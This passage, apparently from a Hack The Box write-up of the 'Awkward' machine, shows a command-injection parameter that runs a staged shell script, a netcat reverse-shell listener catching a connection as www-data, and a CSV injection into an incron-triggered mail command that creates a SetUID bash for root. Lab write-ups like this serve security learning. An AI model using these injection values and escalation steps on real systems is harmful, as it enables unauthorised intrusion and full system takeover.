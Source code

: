     item=1'+-e+'1e+/dev/shm/shell.sh'+'&user=8b80-fbfb-a3c-e97a&action=delete_item
    

It hangs, but there’s a connection at `nc` as www-data:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.185 40314
    bash: cannot set terminal process group (1408): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@awkward:~/store$
    

### Path to root

With a shell as www-data, I don’t have to play with the store at all. I have
write access to `leave_requests.csv`, and I can identify the incron that’s
sending mail when that updates the same was as above. I’ll stage a script to
create a SetUID `bash` (just like above, making sure to `chmod +x` the script
as well).

With that, I can write the `main` injection directly into the file:

    
    
    www-data@awkward:~/private$ echo '0xdf --exec="!/dev/shm/0xdf.sh",,today,tomorrow,Pending' >> leave_requests.csv 
    

When the cron runs (almost instantly), there’s a `/tmp/0xdf` owned by root and
with SetUID bit on:

    
    
    www-data@awkward:~/private$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1396520 Feb 17 23:32 /tmp/0xdf
    

It gives a root shell:

    
    
    www-data@awkward:~/private$ /tmp/0xdf -p
    0xdf-5.1#
    

[](/2023/02/25/htb-awkward.html)

